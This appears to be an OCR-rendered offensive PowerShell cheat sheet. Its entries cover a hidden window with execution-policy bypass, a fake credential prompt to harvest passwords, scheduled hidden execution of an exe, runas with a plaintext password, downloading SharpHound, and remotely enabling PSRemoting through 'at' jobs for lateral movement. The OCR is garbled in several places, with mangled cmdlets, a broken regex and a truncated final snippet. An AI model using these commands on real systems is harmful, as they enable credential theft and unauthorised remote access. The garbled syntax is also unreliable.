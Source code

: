 ### Basic authentication window

```text
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass
$Host.UI.PromptForCredential(" title "," message "," user" "," domain")
```

### Run the exe file \(from cmd.exe\) every 4 hours between August 8-11, 2013, device 0800-1700

```text
powershell. exe -Command "do {if ((Get-Date -format yyyyMMdd-HHmm) -match
'201308 ( 0 [ 8-9] |1 [0-1])-(0[ 8-9]]|1 [ 0-7]) [ 0-5] [ 0-9]') {Start-Process -
WindowStyle Hidden "C:\Temp\my.exe";Start-Sleep -s 14400))while(1)"
```

### Run Powershell as

```text
$pw ~ convertto-securestring -string "PASSWORD" -asplaintext -force;
$pp ~ new-object -typename System.Management.Automation.PSCredential -
argument list "DOMAIN\user", $pw;
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command
&{Start-Process file.exe -verb runas)'
```

### Upload with powershell

```
𝑝𝑜𝑤𝑒𝑟𝑠ℎ𝑒𝑙𝑙 𝑖𝑤𝑟 − 𝑢𝑠𝑒𝑏𝑎𝑠𝑖𝑐𝑝𝑎𝑟𝑠𝑖𝑛𝑔 ℎ𝑡𝑡𝑝://192.168.2. 𝑥/𝑆ℎ𝑎𝑟𝑝𝐻𝑜𝑢𝑛𝑑. 𝑒𝑥𝑒 − 𝑂𝑢𝑡𝐹𝑖𝑙𝑒 − 𝑆ℎ𝑎𝑟𝑝𝐻𝑜𝑢𝑛𝑑. 𝑒𝑥e
```

### Email sender

```text
powershell.exe Send-l-1ai1Hessage -to "email" -from "email" -subject
"Subject" -a "attachment file path" -body "Body" -SmtpServer Target
Email Server IP
```

### Activating remote access to powershell \(requires identity information\)

```text
net time \\ip
at \\ip time "Powershell -Command 'Enable-PSRemoting -Force'"
at \\ip time+1 "Powershell -Command 'Set-Item
wsman:\localhost\client\trustedhosts ''"
at \ \ip time+2 "Powershell -Command 'Restart-Service WinRM'"
Enter-PSSession -ComputerName ip -Credential username
```


### hostname and ip list for all domains


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"